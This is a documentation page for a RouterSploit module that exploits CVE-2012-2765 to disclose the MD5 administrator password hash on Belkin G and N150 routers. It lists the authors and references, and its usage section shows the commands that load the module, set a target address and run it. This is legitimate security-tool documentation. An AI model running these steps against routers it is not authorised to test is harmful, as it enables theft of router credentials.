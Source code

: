 # Belkin G & N150 Password Disclosure

## Description
Module exploits Belkin G and N150 Password MD5 Disclosure vulnerability which allows fetching administration's password in md5 format

## Authors
* Aodrulez <f3arm3d3ar[at]gmail.com> # vulnerability discovery
* Avinash Tangirala # vulnerability discovery
* Marcin Bury <marcin.bury[at]reverse-shell.com> # routersploit module

## References
* [http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2012-2765](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2012-2765)
* [https://www.exploit-db.com/exploits/17349/](https://www.exploit-db.com/exploits/17349/)

## Vulnerable devices
* Belkin G
* Belkin N150

## Usage
```
rsf > use exploits/belkin/g_n150_password_disclosure
rsf (Belkin G & N150 Password Disclosure) > show options

Target options:

   Name       Current settings     Description
   ----       ----------------     -----------
   target                          Target address e.g. http://192.168.1.1
   port       80                   Target Port


rsf (Belkin G & N150 Password Disclosure) > set target 192.168.1.1
[+] {'target': '192.168.1.1'}
rsf (Belkin G & N150 Password Disclosure) > run
[*] Running module...
```

